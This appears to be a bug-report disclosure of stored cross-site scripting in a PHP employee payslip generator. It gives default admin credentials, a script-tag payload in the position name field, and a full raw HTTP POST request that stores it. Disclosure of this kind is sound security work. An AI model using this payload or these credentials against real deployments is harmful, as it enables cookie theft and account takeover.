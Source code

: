 # Updated - Employee Payslip Generator with Sending Mail v1.0 has stored cross-site scripting

BUG_Author: Jean_Astruc

Website source address: https://www.sourcecodester.com/php/16264/updated-employee-payslip-generator-sending-mail-using-php-and-gmail-smtp.html

Vulnerability url: /php-pess/classes/Master.php?f=save_position

POST form-data parameter name exists stored cross-site scripting

### Steps to reproduce

1.Go to the admin Login

http://localhost/php-pess/admin/login.php

System Admin Access information:

Username: admin Password: admin123

2.Click on Position List and Click on + Create News

3.Put Payload into the 'Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/Jean-Astruc/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /php-pess/classes/Master.php?f=save_position HTTP/1.1
Host: localhost
Content-Length: 357
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/php-pess/admin/?page=positions
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=40s5h8f7t1k0c7i6bqttocu5pk
Connection: close

------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryIM8xZ7Pkq5Ku8pbA--
```

5.Payload will trigger when a user visits on http://localhost/php-pess/admin/?page=positions

![image](https://github.com/Jean-Astruc/bug_report/blob/main/xss2.png)
